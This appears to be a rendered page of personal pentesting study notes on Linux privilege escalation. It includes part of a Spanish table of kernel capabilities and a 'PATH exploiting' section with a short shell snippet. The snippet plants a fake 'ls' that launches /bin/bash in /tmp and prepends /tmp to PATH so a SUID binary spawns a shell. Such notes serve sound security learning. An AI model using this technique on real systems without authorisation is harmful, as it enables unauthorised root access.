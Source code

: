| CAP_SYS_MODULE       | Permite cargar y eliminar módulos del núcleo.                                                                                                                                                                                                                                                                                                                                                                                            |
| CAP_SYS_NICE         | Permite aumentar el valor nice del proceso  invocador  (nice(2), setpriority(2)) y cambiar el valor nice de procesos arbitrarios; permite establecer políticas de  planificación  de  tiempo  real para  el  proceso  invocador  y establecer políticas de planificación y prioridades para procesos arbitrarios  (sched_setscheduler(2), sched_setparam(2)).                                                                            |
| CAP_SYS_PACCT        | Permite llamadas a acct(2).                                                                                                                                                                                                                                                                                                                                                                                                              |
| CAP_SYS_PTRACE       | Permite  el seguimiento detallado de procesos arbitrarios usando ptrace(2)                                                                                                                                                                                                                                                                                                                                                               |
| CAP_SYS_RAWIO        | Permite operaciones sobre puertos de E/S (iopl(2) y ioperm(2)).                                                                                                                                                                                                                                                                                                                                                                          |
| CAP_SYS_RESOURCE     | Permite el uso de espacio  reservado  en  sistemas  de  ficheros ext2;  llamadas  ioctl(2)  para  controlar  el registro en ext3; sobrescribir los límites de las cuotas de disco; incrementar los límites  de  recursos (vea setrlimit(2)); sobrescribir el límite del recurso RLIMIT_NPROC; incrementar el límite msg_qbytes para una  cola  de  mensajes  por encima del limite en /proc/sys/kernel/msgmnb (vea msgop(2) y msgctl(2). |
| CAP_SYS_TIME         | Permite la modificación del reloj del sistema  (settimeofday(2), adjtimex(2));  permite  la modificación del reloj de tiempo real (hardware)                                                                                                                                                                                                                                                                                             |
| CAP_SYS_TTY_CONFIG   | Permite llamadas a vhangup(2).                                                                                                                                                                                                                                                                                                                                                                                                           |


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## PATH exploiting

</div>


- If we have [[SUID\|SUID]] binary
- Re-write the PATH variable to a location of our choosing!
- When the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

Example with `ls`

```shell
cd /tmp && \
echo "[whatever command we want to run]" > [name of the executable we are imitating]
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
```

Check which folders can I write.

</div></div>

## Weak file permissions
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Writable passwd

</div>
